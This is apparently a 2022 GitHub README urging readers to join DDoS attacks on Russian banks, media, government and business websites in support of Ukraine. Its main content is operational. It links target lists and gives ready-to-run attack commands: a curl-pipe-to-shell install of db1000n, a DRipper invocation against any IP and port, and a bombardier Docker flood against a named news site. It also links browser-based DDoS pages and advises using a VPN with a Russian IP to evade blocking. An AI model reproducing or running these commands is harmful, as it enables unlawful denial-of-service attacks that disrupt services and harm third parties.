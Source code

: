 # Save Ukraine 🇺🇦

Russia has vilely attacked Ukraine on the morning of February 24, bombing peaceful cities with millions of people.

I've tried to compose a list of DDoS tools to help win this war on the informational front.

Our goals:
- Disrupt Russian propaganda websites and gov services
- Force people in Russia to protest against violent government policy
- Win this war

Last but not least [Русский корабль — иди нахуй!](https://www.youtube.com/watch?v=LDrFVdms8yk)

## VPN software

It's better to secure yourself with a VPN service. It makes you more anonymous, and you can switch to a different IP if yours get blocked.

I'll list here only ones that [have shown](https://macpaw.com/news/macpaw-amidst-aggression) support to Ukraine and provided temporary free access.

Ideally, choose a Russian IP, so you have fewer chances to be blocked.

### ClearVPN

1. Sign up on the website
2. Click on "Redeem a promocode"
3. Enter coupon code "SAVEUKRAINE"
4. Download the desktop app
5. Once installed, go back to the website and click "Auto-login"

### F-Secure FREEDOME VPN

1. Register using [this link](https://t.co/TekcNPxW9p) (copied from [here](https://twitter.com/fsecure/status/1497248407303462960))
2. Fill out your details and choose "Ukraine" as a country
3. Copy activation code
4. Download "F-Secure FREEDOME VPN" from [here](https://www.f-secure.com/en/home/download#freedome)
5. Once downloaded, go to "Subscriptions" -> "Activate subscription" and enter your license code

## List of targets

- [Banks and financial services](./targets/banks.txt)
- [Media propaganda resources](./targets/media.txt) 
- [Governmental and state resources](./targets/state.txt)
- [Business corporations](./targets/corporations.txt)
- [Other unsorted](./targets/unsorted.txt) (feel free to contribute)

## Checking availability

You can check the availability of target resources using these websites:

- https://globalcheck.net/ru
- https://check-host.net/check-ping
- https://ddosmonitor.herokuapp.com

## DDoS Tools

### [DB1000N](https://github.com/Arriven/db1000n)

**Shell-way (simplest)**

1. Run `curl https://raw.githubusercontent.com/Arriven/db1000n/main/install.sh | sh`
2. Run `./db1000n`

> See docs for other installation options.

### [DRipper](https://github.com/palahsu/DDoS-Ripper)

1. [Install python3](https://www.python.org/downloads/)
2. Run `git clone https://github.com/palahsu/DDoS-Ripper`
3. Run `python3 DRipper.py -s {IP} -p {PORT} -t 135` and put an IP that you want to attack

### [Bombardier](https://github.com/codesenberg/bombardier) (Docker)

**Installation (the simplest way)**

1. Install [Docker Desktop](https://www.docker.com/products/docker-desktop)
2. Open Terminal

**Single-target attack**

1. Run `docker run -ti --rm alpine/bombardier -c 1000 -d 9600s -l https://www.1tv.com/` (change URL to the one you want to attack)

> See [Bombardier docs](https://github.com/codesenberg/bombardier) for more options

**Multi-target attack**

1. Download `bombardier.sh`
2. Run `sudo chmod +x bombardier.sh`
3. Run `./bombardier.sh` to attack all targets
4. Run `./bombardier.sh banks` to attack specific category targets (see [targets](./targets))

## Browser-based DDoS

This approach doesn't require any technical knowledge, simply open the website and follow instructions.

- https://attack-ui.vercel.app/attack/ddos/start ([instructions](https://destiny-jumbo-8c6.notion.site/Attack-UI-5aebc8eaedcc47448b6d79fc4243d141))
- http://www.notwar.ho.ua/
- https://nowarukraine.online/
- https://vug.pl/takeRussiaDown.html
- https://cyber-yozh.com/
- https://playforukraine.live/

## Support Ukraine with a donation

Please support Ukraine to win this war. Every cent matters.

These are verified and government-supported funding websites:

1. https://uahelp.monobank.ua/
2. https://bank.gov.ua/en/news/all/natsionalniy-bank-vidkriv-spetsrahunok-dlya-zboru-koshtiv-na-potrebi-armiyi
3. https://putler.io/

You can also support with crypto ([source](https://t.me/zedigital/1107)):
- BTC: `357a3So9CbsNfBBgFYACGvxxS6tMaDoa1P` ([see balance](https://www.blockchain.com/btc/address/357a3So9CbsNfBBgFYACGvxxS6tMaDoa1P))
- ETH: `0x165CD37b4C644C2921454429E7F9358d18A45e14` ([see balance](https://etherscan.io/address/0x165CD37b4C644C2921454429E7F9358d18A45e14))
- USDT (TRC20): `TEFccmfQ38cZS1DTZVhsxKVDckA8Y6VfCy` ([see balance](https://usdt.tokenview.com/en/address/TEFccmfQ38cZS1DTZVhsxKVDckA8Y6VfCy))

## Join our IT army

1. [Official IT army Telegram channel](https://t.me/itarmyofukraine2022)
2. [Report vulnerabilities](http://t.me/stop_russian_war_bot) on Russian resources anonymously

## Any suggestions?

If you have something to add to the list, please submit a PR or write to comradefuckz@protonmail.com. 
